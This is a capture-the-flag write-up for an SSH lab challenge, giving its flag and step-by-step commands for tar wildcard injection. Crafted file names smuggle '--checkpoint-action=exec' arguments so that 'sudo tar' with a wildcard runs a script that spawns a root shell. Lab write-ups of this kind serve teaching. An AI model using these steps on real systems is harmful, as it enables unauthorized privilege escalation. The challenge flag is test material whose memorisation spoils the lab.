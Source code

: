 # Army4

>
> ### user: PWNX{0fa6665d883acdbc36e74ef94b1b7543}
> 

## Description

A simple SSH server, but the user seems to have too much permissions.

## Technical description

The challenge focuses on the **TAR Wildcard Injection Privilege Escalation** vulnerability, which allows the pwnx user whose has the root sudo permissions to the `tar` binary, to gain instant root privileges on the system and read the flag.

## Writeup

The challenge presents the port `22/tcp (SSH)` open. On connection a user reads the lab banner and username and password needed for the SSH login. The pwnx user can execute the tar binary with root privileges. An attacker can exploit this excessive trust for the user and elevate his privileges to gain root acces on the system. In order to complete the challenge an attacker have to do some preparation steps to be sure that the exploit works.

These are the preparation steps:

```bash
$ mkdir -pv privesc # for convenience
$ cd privesc # Moving in the newly created directory
$ touch -- --checkpoint=1 # Creating the file '--checkpoint=1', notice the '--' as the first argument of the 'touch' command, This allows us to create files containing special characters
$ touch -- '--checkpoint-action=exec=bash shell.sh' # Creating the file '--checkpoint-action=exec=bash shell.sh'
$ echo '/bin/bash -p' >> shell.sh # Creating the file 'shell.sh' containing the command we want to be executed as root user
$ chmod +x shell.sh # Setting execution permissions on the 'shell.sh' file
```

Having all of this prepared, the attacker can execute the following command that at this point should give him a root shell:

```bash
$ sudo /usr/bin/tar -cvf archive.tar *
```
